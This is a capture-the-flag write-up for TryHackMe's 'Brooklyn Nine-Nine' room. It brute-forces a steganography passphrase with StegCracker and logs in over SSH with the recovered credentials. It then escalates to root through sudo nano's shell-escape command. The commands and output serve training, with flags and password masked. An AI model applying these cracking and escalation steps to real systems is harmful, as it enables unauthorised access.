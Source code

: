 ```yaml
---
title: Brooklyn Nine Nine
categories: [TryHackMe]
tags: [Linux, easy,]
image: images/Brooklyn Nine Nine/Brooklyn Nine Nine.jpg
---
```


**Brooklyn Nine-Nine** is a **medium** rated room on **TryHackMe**, inspired by the *Brooklyn Nine-Nine* TV series. The challenge starts with a web server hosting a precinct's internal site containing employee profiles and clues. By enumerating the server, hidden files and directories are uncovered, leading to sensitive information. Initial access is gained through weak credentials, and exploiting further vulnerabilities allows privilege escalation.



For any webpage, the first thing that we can do is check out it’s source-code and over there we can see a hint related to `steganography`

<img src="images/Brooklyn%20Nine%20Nine/img1.webp" alt="Brooklyn Nine-Nine" width="700"/>

Now, we can think like we have an image and a hint towards steganography. So, we can download the image and see if there is something hidden inside it. We can use `Steghide` to uncover the hidden data:


```console
Glitch.@glitch.:~/Downloads$ steghide extract -sf brooklyn99.jpg 
Enter passphrase: 
steghide: can not uncompress data. compressed data is corrupted.
```
Steghide was not able to retrieve the data from the image, so we can try to do the same with `StegCracker`. If StegCracker is not present on your machine, it can be downloaded using the command 

```bash
sudo apt install stegcracker
```

We can pass on a wordlist to StegCracker which it uses to attack the target file and if the wordlist is not passed on then it by default uses the rockyou.txt to attack the target file.

We can pass on a wordlist to StegCracker which it uses to attack the target file and if the wordlist is not passed on then it by default uses the rockyou.txt to attack the target file.

```console
Glitch.@glitch.:~/Downloads$ stegcracker brooklyn99.jpg 
StegCracker 2.0.9 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2020 - Luke Paris (Paradoxis)
No wordlist was specified, using default rockyou.txt wordlist.
Counting lines in wordlist..
Attacking file 'brooklyn99.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: admin
Tried 20395 passwords
Your file has been written to: brooklyn99.jpg.out
admin
```


We can see that the file has been cracked and the data has been written to a new file.
```console 
Glitch.@glitch.:~/Downloads$ cat brooklyn99.jpg.out 
Holts Password:
*******************
Enjoy!!
```
Now, we have the user credentials that we can try to use with SSH. Keep in mind that the username is `holt` and I've hid the password with `*`.

```console
Glitch@glitch:~$ ssh holt@10.10.182.115
The authenticity of host '10.10.182.115 (10.10.182.115)' can't be established.
ECDSA key fingerprint is SHA256:Ofp49Dp4VBPb3v/vGM9jYfTRiwpg2v28x1uGhvoJ7K4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.182.115' (ECDSA) to the list of known hosts.
holt@10.10.182.115's password: 
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
holt@brookly_nine_nine:~$ cat user.txt 
*******************************
```

And we got the `user.txt` flag. Now, the next task is to get the root access for which we need to perform privilege escalation.

# Privilege Escalation
As we have already logged in as holt, we need to become root to get the second flag. We can check the commands that can be executed as user holt. To do this we can use the command `sudo -l` to list all the commands that we can execute as root.


```console
Glitch.@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```

We can see that the command `/bin/nano` can be executed as 'root' by user 'holt'. So, we can check if there are any GTFOBins for `nano`. We can run the commands as described in GTFOBins and get the shell access as root.

First, we need to enter the `nano editor` with sudo privilege using the command:

```console 
holt@brookly_nine_nine:~$ sudo /bin/nano
```

Once, we get into the editor we need to press Ctrl+R and then Ctrl+X and then we can execute the command `reset; sh 1>&0 2>&0`. This will give us a root shell using which we can read the `root.txt` from `/root` directory.










<img src="images/Brooklyn%20Nine%20Nine/prv.png" alt="Brooklyn Nine-Nine" width="700"/>



Now we can take the flag from `root.txt` and submit it as the flag for the second question. With this, we have solved the `Brooklyn Nine-Nine` room!


